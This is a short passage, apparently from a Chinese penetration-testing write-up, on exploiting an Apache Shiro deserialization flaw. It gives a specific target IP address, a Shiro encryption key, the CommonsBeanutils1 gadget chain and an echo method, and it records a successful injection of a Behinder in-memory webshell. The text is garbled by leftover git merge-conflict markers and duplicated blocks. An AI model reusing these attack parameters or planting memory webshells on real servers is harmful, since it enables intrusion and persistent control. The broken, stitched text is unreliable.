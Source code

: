 ### Shiro 反序列化 RCE

找到构造链：

<<<<<<< HEAD
```plain
URL: http://121.89.201.231:8080
SHIRO KEY: QZYysgMYhG6/CzIJlVpR2g==
构造链: CommonsBeanutils1  
回显方式: AllEcho
```

[![](assets/1710898759-6d53fd53c873db32915f95aaf1c5c255.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313104300-6802edfc-e0e3-1.png)

注入内存马：

```plain
冰蝎[Filter]  注入成功!
=======
```bash
URL: http://121.89.201.231:8080
SHIRO KEY: QZYysgMYhG6/CzIJlVpR2g==
构造链：CommonsBeanutils1  
回显方式：AllEcho
```
